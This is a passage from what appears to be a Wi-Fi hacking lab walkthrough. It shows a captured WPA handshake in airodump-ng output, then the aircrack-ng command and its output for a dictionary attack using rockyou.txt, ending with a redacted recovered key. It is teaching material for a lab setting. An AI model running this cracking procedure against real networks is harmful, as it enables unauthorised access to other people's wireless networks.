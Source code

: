 On the first terminal, we should now see the WPA handshake as `WPA handshake: 02:00:00:00:00:00`.

```bash
CH  6 ][ Elapsed: 1 min ][ 2024-11-02 19:30 ][ WPA handshake: 02:00:00:00:00:00 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 02:00:00:00:00:00  -28 100      631        8    0   6   54   WPA2 CCMP   PSK  MalwareM_AP  

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 02:00:00:00:00:00  02:00:00:00:01:00  -29    1 - 5      0      140  EAPOL 
```

### Cracking the WPA/WPA2 Passphrase

The WPA/WPA2 passphrase can now be cracked using a dictionary attack, where the passphrase is matched against entries in a wordlist. The cracking will be done using the tool `aircrack-ng` and the wordlist used here will be `rockyou.txt`.

The command `sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap` will do this for us where the `-a 2` flag indicates the WPA/WPA2 attack mode. The `-b` indicates the BSSID of the access point, and the `-w` flag indicates the dictionary list to use for the attack. Finally, we select the output files that we will be using, which contain the 4-way handshake that we will be cracking.

```bash
glitch@wifi:~$ sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap
Reading packets, please wait...
Opening output-file-01.cap
Read 276 packets.
1 potential targets

                               Aircrack-ng 1.6 

      [00:00:01] 304/513 keys tested (217.04 k/s) 

      Time left: 0 seconds                                      59.26%

                 KEY FOUND! [ REDACTED ]

      Master Key     : B6 53 9A 71 8C C4 74 5F E3 26 49 82 37 74 65 09 
                       BE C5 62 CE 43 C4 68 A7 B4 8F 8C E6 98 EE 1C CB 

      Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : C8 8E D5 F4 B4 5A 1D C4 6C 41 35 07 68 81 79 CD        
```

Note: If you get an `Packets contained no EAPOL data; unable to process this AP` error, this means that you ran aircrack-ng prior to the handshake being captured or that the handshake was not captured at all. If that's the case, then re-do all of the steps in order to capture the WPA handshake.
